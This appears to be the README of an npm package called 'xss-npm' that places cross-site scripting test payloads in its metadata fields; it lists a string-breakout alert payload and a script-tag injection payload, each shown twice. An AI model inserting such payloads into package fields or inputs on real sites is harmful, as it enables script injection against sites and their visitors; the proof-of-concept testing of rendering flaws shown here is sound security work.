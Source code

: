 # xss-npm
NPM package with XSS payloads in meta fields.

# Payloads
```
';alert(1);//
"><script>alert(2);</script>
```


# Payloads raw
';alert(1);//
"><script>alert(2);</script>
